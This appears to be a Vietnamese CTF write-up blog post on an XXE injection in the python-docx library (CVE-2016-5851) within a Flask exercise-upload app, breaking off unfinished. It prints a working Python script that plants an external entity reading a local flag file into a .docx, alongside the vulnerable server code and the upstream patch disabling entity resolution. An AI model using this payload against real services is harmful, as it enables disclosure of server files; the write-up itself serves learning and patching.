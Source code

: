 ```yaml
---
title: "Matesctf final 2 - XXE Injection"
date: 2018-09-08T09:46:55+07:00
author: "Kev"
comments: true
tags: ["CTF", "Flask"]
draft: false
Archives: '2018'
autoThumbnailImage: false
thumbnailImagePosition: top
thumbnailImage: ''
coverImage: /images/uploads/ex50-7.png
categories:
  - CTF
---
```


## EXPLOIT - [source](/resources/matesctf/ex50.tar) 
<hr>
Mình nhận thấy lỗi này đầu tiên, mình tưởng đây là LFI cơ, vì cho mình đọc nội dung của cái gì đó (trên hình) và download file nữa. {{<emoji lol>}}

```
python-docx is a Python library for creating and updating Microsoft Word (.docx) files.
```

`Docx` là thư viện sử dụng để xử lý file word. Cũng dễ hiểu đây là lỗi vì không cớ gì mà tác giả lại xử lý file word ở đây cả, chức năng upload và hiển thị nội dung file bình thường thì tại sao lại xử lý file docx làm gì. Sau khi tìm hiểu thì mình tìm được CVE của [docx](https://www.cvedetails.com/cve/CVE-2016-5851/). Tìm hiểu thêm thì đã có exploit sẵn, cụ thể mình cần tạo 1 file docx bất kì rồi chạy payload bên dưới, nhúng nội dung XML vào cuối file word đấy:

{{<highlight python>}}
import docx
import zipfile
import tempfile
import os

# define malicious XML
xml_string = '''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE w:document [
  <!ENTITY xxe SYSTEM "file:///home/ctf/ex50/flag" >
]>
<w:document xmlns:o="urn:schemas-microsoft-com:office:office"
xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"
xmlns:v="urn:schemas-microsoft-com:vml"
xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main"
xmlns:w10="urn:schemas-microsoft-com:office:word"
xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing">
<w:body>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t>
Pierre Ernst, Salesforce --[&xxe;]--
</w:t>
</w:r>
</w:p>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t></w:t>
</w:r>
</w:p>
<w:sectPr>
<w:type w:val="nextPage" />
<w:pgSz w:w="12240" w:h="15840" />
<w:pgMar w:left="1134" w:right="1134" w:header="0" w:top="1134"
w:footer="0" w:bottom="1134" w:gutter="0" />
<w:pgNumType w:fmt="decimal" />
<w:formProt w:val="false" />
<w:textDirection w:val="lrTb" />
</w:sectPr>
</w:body>
</w:document>'''

# source: http://stackoverflow.com/questions/25738523/how-to-update-one-file-inside-zip-file-using-python
def updateZip(zipname, filename, data):
    # generate a temp file
    tmpfd, tmpname = tempfile.mkstemp(dir=os.path.dirname(zipname))
    os.close(tmpfd)

    # create a temp copy of the archive without filename
    with zipfile.ZipFile(zipname, 'r') as zin:
        with zipfile.ZipFile(tmpname, 'w') as zout:
            for item in zin.infolist():
                if item.filename != filename:
                    zout.writestr(item, zin.read(item.filename))

    # replace with the temp archive
    os.remove(zipname)
    os.rename(tmpname, zipname)

    # now add filename with its new data
    with zipfile.ZipFile(zipname, mode='a',
compression=zipfile.ZIP_DEFLATED) as zf:
        zf.writestr(filename, data)

# update legit docx file with malicious XML
updateZip('whatever.docx', 'word/document.xml', xml_string)

# process with python-docx
document = docx.Document('whatever.docx')
print '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
{{</highlight>}}

Tại sao lại nén zip? Vì bản chất file docx là 1 file nén chứa nhiều file xml bên trong. Sau khi chạy payload thì đoạn xml đã được chèn vào file document.xml

{{< figure src="/images/uploads/ex50-8.png">}}

Vậy là upload bằng cách create exercise và view exercise, ta nhận được flag.

{{< figure src="/images/uploads/ex50-9.png">}}

Truy ra nguồn gốc của lỗi này thì do 1 func xử lý exercises đã parse file .docx và lấy nội dung lưu vào database

{{<highlight python>}}
try:
   document = docx.Document(os.path.join(UPLOAD_FOLDER_EX, filename))
   content = '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
except:
   content = "Cannot get content"
Exercises.insert({"name": name, "file_path": file_path,"date":date,"uploader":session['usn'],"content":content})
{{</highlight>}}

Nhờ một thời gian phân tích 1day nhiều dạng, mình rút ra được cách fix lỗi nhanh nhất là đi tìm bản patch từ nhà cung cấp và đọc xem họ fix như thế nào, như thế sẽ nhanh hơn là tự suy nghĩ cách vá. Các bạn có thể xem bản vá trên [github](https://github.com/python-openxml/python-docx/pull/303/commits/14a44178711cbd860b910f8950f9946addfc5e57). Họ disable XML entity, đây là cách vá hay nhất mà mình biết.

Bước đầu tiên là phải tìm ra được file thư viện nằm ở vị trí nào trên server của mình

{{<highlight bash>}}
$ python -c "import docx; print docx.__file__"
> /usr/local/lib/python2.7/dist-packages/docx/__init__.pyc
{{</highlight>}}

Từ link github trên mình cũng biết là file cần fix là `docx/oxml/__init__.py` . Chỉ cần sửa dòng số 17 thôi là đủ

```
oxml_parser = etree.XMLParser(remove_blank_text=True,resolve_entities=False)
```

{{< figure src="/images/uploads/ex50-10.png">}}

NHƯNG, đời không như mơ đâu các bạn à !!! Chúng ta không có quyền để sửa file `__init__.py`

## SOLUTIONS
<hr>
To be continue ...

